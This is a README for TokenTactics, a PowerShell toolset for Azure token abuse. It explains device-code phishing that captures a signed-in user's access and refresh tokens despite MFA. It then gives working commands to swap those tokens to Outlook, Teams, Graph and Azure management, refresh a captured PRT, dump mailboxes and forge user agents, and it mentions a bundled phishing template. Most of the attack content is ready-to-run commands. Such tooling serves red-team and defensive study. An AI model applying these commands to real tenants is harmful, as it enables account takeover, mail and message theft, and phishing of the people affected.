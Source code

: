 # TokenTactics
Azure JSON Web Token ("JWT") Manipulation Toolset

Azure access tokens allow you to authenticate to certain endpoints as a user who signs in with a device code. Even if they used multi-factor authentication. Once you have a user's access token, it may be possible to access certain apps such as Outlook, SharePoint, OneDrive, MSTeams and more. 

For instance, if you have a Graph or MSGraph token, you can then connect to Azure and dump users, groups, etc. You could then, depending on conditional access policies, switch to an Azure Core Management token and run [AzureHound](https://github.com/BloodHoundAD/AzureHound). Then, switch to an Outlook token and read/send emails or MS Teams and read/send messages!

For more on Azure token types [Microsoft identity platform access tokens](https://docs.microsoft.com/en-us/azure/active-directory/develop/access-tokens)

There are some example requests to endpoints in the resources folder. There is also an example phishing template for device code phishing.

You may also use these tokens with [AAD Internals](https://o365blog.com/aadinternals/) as well. We strongly recommended to check this amazing tool out.

## Installation and Usage

```Import-Module .\TokenTactics.psd1```

```Get-Help Get-AzureToken```

```Invoke-RefreshToSubstrateToken```

### Generate Device Code

```Get-AzureToken -Client MSGraph```
Once the user has logged in, you'll be presented with the JWT and it will be saved in the $response variable. To access the access token use ```$response.access_token``` from your PowerShell window to display the token. You may also display the refresh token with ```$response.refresh_token```. Hint: You'll want the refresh token to keep refreshing to new access tokens! By default, Get-AzureToken results are logged to TokenLog.log.

#### DOD/Mil Device Code
```Get-AzureToken -Client DODMSGraph```

### Refresh or Switch Tokens

```Invoke-RefreshToOutlookToken -domain myclient.org -refreshToken 0.A```

```$OutlookToken.access_token```

### Connect
```Connect-AzureAD -AadAccessToken $response.access_token -AccountId user@myclient.org```

### Refresh a PRT

Once a PRT has been captured, auth with roadrecon to obtain your access_token and refresh_token. When refreshing with TokenTactics, use ClientID 1b730954-1685-4b74-9bfd-dac224a7b894.

```Invoke-RefreshToMSGraphToken -domain myclient.org -ClientId 1b730954-1685-4b74-9bfd-dac224a7b894 -refreshToken 0.A```

### Clear tokens
```Invoke-ClearToken -Token All```

### Commands
```powershell
Get-Command -Module TokenTactics

CommandType     Name                                               Version    Source
-----------     ----                                               -------    ------
Function        Invoke-ClearToken                                        0.0.2      TokenTactics
Function        Invoke-DumpOWAMailboxViaMSGraphApi                       0.0.2      TokenTactics
Function        Invoke-ForgeUserAgent                                    0.0.2      TokenTactics
Function        Get-AzureToken                                           0.0.2      TokenTactics
Function        Get-TenantID                                             0.0.2      TokenTactics
Function        Invoke-OpenOWAMailboxInBrowser                           0.0.2      TokenTactics
Function        Invoke-ParseJWTtoken                                     0.0.2      TokenTactics
Function        Invoke-RefreshToAzureCoreManagementToken                 0.0.2      TokenTactics
Function        Invoke-RefreshToAzureManagementToken                     0.0.2      TokenTactics
Function        Invoke-RefreshToDODMSGraphToken                          0.0.2      TokenTactics
Function        Invoke-RefreshToGraphToken                               0.0.2      TokenTactics
Function        Invoke-RefreshToMAMToken                                 0.0.2      TokenTactics
Function        Invoke-RefreshToMSGraphToken                             0.0.2      TokenTactics
Function        Invoke-RefreshToMSManageToken                            0.0.2      TokenTactics
Function        Invoke-RefreshToMSTeamsToken                             0.0.2      TokenTactics
Function        Invoke-RefreshToO365SuiteUXToken                         0.0.2      TokenTactics
Function        Invoke-RefreshToOfficeAppsToken                          0.0.2      TokenTactics
Function        Invoke-RefreshToOfficeManagementToken                    0.0.2      TokenTactics
Function        Invoke-RefreshToOutlookToken                             0.0.2      TokenTactics
Function        Invoke-RefreshToSubstrateToken                           0.0.2      TokenTactics
Function        Invoke-RefreshToYammerToken                              0.0.2      TokenTactics
```

## Authors and contributors
- [@0xBoku](https://github.com/boku7) co-author and researcher.

TokenTactic's methods are highly influenced by the great research of Dr Nestori Syynimaa at https://o365blog.com/.

